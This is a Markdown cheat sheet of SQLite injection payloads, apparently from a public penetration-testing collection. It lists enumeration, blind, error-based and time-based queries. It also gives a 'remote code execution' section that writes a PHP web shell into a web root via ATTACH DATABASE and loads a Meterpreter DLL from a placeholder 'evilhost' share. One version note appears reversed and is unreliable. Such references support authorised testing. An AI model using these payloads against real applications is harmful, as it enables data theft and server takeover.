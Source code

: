 # SQLite Injection

> SQLite Injection  is a type of security vulnerability that occurs when an attacker can insert or "inject" malicious SQL code into SQL queries executed by an SQLite database. This vulnerability arises when user inputs are integrated into SQL statements without proper sanitization or parameterization, allowing attackers to manipulate the query logic. Such injections can lead to unauthorized data access, data manipulation, and other severe security issues. 


## Summary

* [SQLite Comments](#sqlite-comments)
* [SQLite Enumeration](#sqlite-enumeration)
* [SQLite String](#sqlite-string)
    * [SQLite String Methodology](#sqlite-string-methodology)
* [SQLite Blind](#sqlite-blind)
    * [SQLite Blind Methodology](#sqlite-blind-methodology)
    * [SQLite Blind With Substring Equivalent](#sqlite-blind-with-substring-equivalent)
* [SQlite Error Based](#sqlite-error-based)
* [SQlite Time Based](#sqlite-time-based)
* [SQlite Remote Code Execution](#sqlite-remote-code-execution)
    * [Attach Database](#attach-database)
    * [Load_extension](#load_extension)
* [SQLite File Manipulation](#SQLite-file-manipulation)
    * [SQLite Read File](#SQLite-read-file)
    * [SQLite Write File](#SQLite-write-file)
* [References](#references)


## SQLite Comments

| Description         | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |


## SQLite Enumeration

| Description   | SQL Query |
| ------------- | ----------------------------------------- |
| DBMS version  | `select sqlite_version();`                |


## SQLite String

### SQLite String Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- | 
| Extract Database Structure                           | `SELECT sql FROM sqlite_schema` |
| Extract Database Structure (sqlite_version > 3.33.0) | `SELECT sql FROM sqlite_master` |
| Extract Table Name  | `SELECT tbl_name FROM sqlite_master WHERE type='table'` |
| Extract Table Name  | `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` |
| Extract Column Name | `SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'` |
| Extract Column Name | `SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');` |
| Extract Column Name | `SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='<TABLE_NAME>'` |
| Extract Column Name | `SELECT name FROM PRAGMA_TABLE_INFO('<TABLE_NAME>')` |


## SQLite Blind

### SQLite Blind Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- | 
| Count Number Of Tables  | `AND (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' ) < number_of_table` | 
| Enumerating Table Name  | `AND (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0)=table_name_length_number` | 
| Extract Info            | `AND (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) > HEX('some_char')` | 
| Extract Info (order by) | `CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = HEX('some_char') THEN <order_element_1> ELSE <order_element_2> END` | 


### SQLite Blind With Substring Equivalent

| Function    | Example                                   |
| ----------- | ----------------------------------------- | 
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`  | 
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`     | 


## SQlite Error Based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```


## SQlite Time Based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```


## SQLite Remote Code Execution

### Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### Load_extension

:warning: This component is disabled by default.

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```


## SQLite File Manipulation

### SQLite Read File

SQLite does not support file I/O operations by default.


### SQLite Write File

```sql
SELECT writefile('/path/to/file', column_name) FROM table_name
```


## References

* [Injecting SQLite database based application - Manish Kishan Tanwar - February 14, 2017](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
* [SQLite Error Based Injection for Enumeration - Rio Asmara Suryadi - February 6, 2021](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
* [SQLite3 Injection Cheat sheet - Nickosaurus Hax - May 31, 2012](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)